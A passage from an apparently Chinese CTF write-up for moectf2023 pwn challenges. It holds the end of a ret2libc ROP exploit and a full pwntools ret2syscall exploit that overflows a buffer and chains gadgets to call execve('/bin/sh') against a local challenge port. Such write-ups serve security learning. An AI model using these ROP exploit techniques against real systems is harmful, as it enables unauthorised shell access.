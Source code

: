 ```python
print(hex(binsh_addr))

# 下面的这个将system函数放到puts函数的返回地址中，否则在main中直接调用会出现栈错误
pad2 = b'a' * 0x58 + p64(pop_rdi) + p64(binsh_addr) + p64(puts_addr) + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)

sh.sendline(pad2)
sh.interactive()
```



## ret2syscall

这道题题目已经告诉我们要进行系统调用了。要调用execve("/bin/sh", null, null)，我们需要将rax设为0x3b（64位execve的系统调用号），rdi设为binsh的地址，rsi和rdx设为0，最后接syscall。

![image-20230823110549652](./moectf2023-pwn-wp.assets/image-20230823110549652.png)

![image-20230823110454152](./moectf2023-pwn-wp.assets/image-20230823110454152.png)

exp:

```python
from pwn import *

context(os="linux", arch="amd64") 
parent_path = "/home/user/tmp/"
sh = remote("localhost", 36865)

binsh_addr = 0x404040
pop_rax = 0x40117e
pop_rdi = 0x401180
pop_rsi_rdx = 0x401182
syscall = 0x401185

pad = b'a' * 0x48 + p64(pop_rax) + p64(0x3b) + p64(pop_rdi) + p64(binsh_addr) + p64(pop_rsi_rdx) + p64(0) + p64(0) + p64(syscall)
sh.sendline(pad)
sh.interactive()
```
